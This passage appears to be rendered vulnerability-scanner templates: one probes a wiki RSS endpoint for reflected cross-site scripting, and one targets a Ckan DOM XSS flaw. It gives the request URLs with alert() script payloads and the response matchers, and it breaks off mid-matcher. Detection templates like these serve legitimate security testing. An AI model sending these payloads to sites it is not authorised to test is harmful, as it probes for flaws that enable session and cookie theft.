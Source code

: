 ### URL

- {{BaseURL}}/?PagePrincipale/rss&id=1%27%3Cscript%3Ealert(document.domain)%3C/script%3E

### Matchers

**Type - word**

- part - body
- words
  1. \<script>alert(document.domain)\</script>
  2. Query failed:
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Ckan - DOM Cross-Site Scripting

## Description

- Ckan contains a cross-site scripting vulnerability in the document object model via the previous version of the jQuery Sparkle library. An attacker can execute arbitrary script and thus can steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - dom,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/?{alert(1)}

### Matchers

**Type - status**

- status
  1. 200

**Type - word**
